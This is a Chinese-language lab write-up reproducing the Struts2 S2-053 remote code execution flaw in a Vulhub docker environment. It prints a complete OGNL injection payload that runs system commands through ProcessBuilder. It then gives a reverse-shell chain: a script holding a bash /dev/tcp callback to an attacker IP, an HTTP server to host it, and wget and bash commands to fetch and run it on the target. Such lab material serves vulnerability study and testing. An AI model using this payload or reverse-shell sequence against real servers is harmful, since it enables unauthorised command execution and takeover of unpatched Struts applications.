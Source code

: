 # Struts2 S2-053 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-053.html
- https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 漏洞影响

影响版本: Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10

## 环境搭建

Vulhub执行以下命令启动s2-053测试环境：

```
docker-compose build
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令（注意Payload末尾有一个换行）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![image-20220302132454688](images/202203021324760.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

![image-20220302132524059](images/202203021325134.png)

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为：

![image-20220302132552428](images/202203021325509.png)

成功接收反弹shell：

![image-20220302132603933](images/202203021326024.png)